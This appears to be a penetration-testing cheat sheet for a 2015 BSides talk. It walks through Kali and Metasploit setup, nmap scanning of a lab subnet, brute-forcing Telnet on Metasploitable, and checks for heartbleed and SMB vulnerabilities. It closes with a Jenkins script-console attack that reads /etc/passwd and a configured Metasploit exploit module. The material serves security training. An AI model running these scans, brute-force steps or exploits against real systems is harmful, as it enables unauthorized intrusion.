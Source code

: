 Finding Low Hanging Fruit with Kali
===================================
This cheat sheet was developed to accompany the talk Finding Low Hanging Fruit with Kali, which was presented at [Bsides Nashville](http://bsidesnash.org/) in April 2015.

How to Get Kali
---------------
Kali is available for download at http://kali.org/downloads

Setup Kali for First Use
------------------------
Run `apt-get update` to get the latest package lists.

Run `apt-get upgrade` to install the latest packages.

Some packages may be held back, install those packages using `apt-get dist-upgrade` or `apt-get install <package_name>`.

Use `apt-get autoremove` to remove packages that are no longer needed.

Setup Metasploit for First Use
------------------------------
Start the Postgres and Metasploit services

    service postgresql start
    service metasploit start

To have the Postgres and Metasploit services start up at boot time.

    update-rc.d postgresql enable
    update-rc.d metasploit enable

Unnecessary Services
--------------------
TCP scan against 10.1.1.4-254

    nmap 10.1.1.4-254

UDP scan of top ten ports against 10.1.1.4-254

    nmap -sU --top-ports 10 10.1.1.4-254

Use the --open switch to show only the open ports.

    nmap --top-ports 10 --open 10.1.1.4-254

Aggressive scan against 10.1.1.4-254 and save to an XML file.

    nmap -A -oX local_network.xml 10.1.1.4-254

Import the scan results into Metasploit

    msfconsole
    db_import local_network.xml
    hosts
    services
    services -p 23

Finding Weak Passwords
----------------------
Look at the wordlists in the wordlists folder

    cd /usr/share/wordlists
    ls
    gunzip rockyou.txt.gz

Brute-force the Telnet service on Metasploitable

    use auxiliary/scanner/telnet/telnet_login
    show options
    set USERNAME msfadmin
    set PASS_FILE /usr/share/wordlists/fasttrack.txt
    set USER_AS_PASS true
    set BLANK_PASSWORDS true
    services -p 23 -R
    run

Exploitable Vulnerabilities
---------------------------
Find heartbleed vulnerabilities

    nmap -p 443 --script=ssl-heartbleed 10.1.1.4-254

Find SMB vulnerabilities

    nmap --script=smb-check-vulns 10.1.1.4-254  # Unsafe warning
    nmap --script=smb-check-vulns --script-args=unsafe=1 10.1.1.4-254

Web-Based Admin Interfaces
--------------------------
Find the Jenkins interface

    nmap -A -p 80,443,5800,8000,8080 10.1.1.4-254

Once we find Jenkins go to the admin interface and look for the script console.

    proc = [‘cat’, ‘/etc/passwd’].execute()
    println proc.in.text

Metasploit also has a module for this.

    use exploit/multi/http/jenkins_script_console
    show options
    set RHOST 10.1.1.7
    set RPORT 8080
    set TARGETURI /
    show targets
    set TARGET 1
    exploit

Metasploit has a lot of exploits for web interfaces

    search /http/

Online Resources
----------------
[Metasploit Unleashed](http://www.offensive-security.com/metasploit-unleashed/Main_Page)
[Nmap Tutorial](http://www.cyberciti.biz/networking/nmap-command-examples-tutorials/)
